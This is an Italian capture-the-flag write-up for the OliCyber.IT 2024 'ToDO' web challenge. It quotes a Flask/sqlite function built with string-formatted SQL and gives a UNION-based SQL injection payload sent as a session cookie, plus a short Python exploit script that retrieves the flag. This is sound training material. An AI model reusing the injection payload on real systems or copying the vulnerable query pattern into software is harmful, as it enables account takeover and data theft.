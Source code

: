# OliCyber.IT 2024 - Selezione territoriale

## [web] ToDO (34 risoluzioni)

Volevo imparare Python e Flask, niente di meglio di una todo app, a quanto dice Reddit!

Sito: [http://todo.challs.territoriale.olicyber.it](http://todo.challs.territoriale.olicyber.it)

Autore: Aleandro Prudenzano <@drw0if>

## Soluzione

L'applicazione è composta da un web server, implementato con Flask in `app.py`, e un insieme di funzioni utili per interagire con il database sqlite, `db.py`. Analizzando il codice sorgente possiamo velocemente notare che tutte le query non sono eseguite utilizzando prepared statements, ma i parametri variabili sono formattati direttamente dentro le stringhe. Questo può portare a SQLinjection nel caso in cui i parametri di input non sono gestiti correttamente.

Questo accade infatti nella funzione `get_user_from_session`:

```python
    def get_user_from_session(self, session_id):
        cursor = self.get_cursor()

        cursor.execute(
            """SELECT users.id, users.username
            FROM users
            JOIN sessions ON users.id = sessions.user_id
            WHERE sessions.id = '%s';""" % (session_id,))

        users = cursor.fetchall()
        cursor.close()

        if len(users) == 1:
            return users[0]

        return None
```

Possiamo quindi effettuare una SQLinjection per alterare la query e farle ritornare i task appartenenti ad un altro utente, semplicemente usando il giusto payload, passato come cookie di sessione.

Un payload possibile è `' UNION SELECT id, username FROM users WHERE username='antonio' --`; con questo, la query ci ritornerà tutti i dati relativi all'utente `antonio`, che sappiamo essere quello contenente la flag fra le sue note.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://todo.challs.territoriale.olicyber.it")
if URL.endswith("/"):
    URL = URL[:-1]


cookies = {
    "session": "' UNION SELECT id, username FROM users WHERE username='antonio' -- ",
}

r = requests.get(f"{URL}/todo", cookies=cookies)
flag = re.compile(r"flag\{.*\}").search(r.text)

if flag:
    print(flag.group())
else:
    print("Flag not found")
```
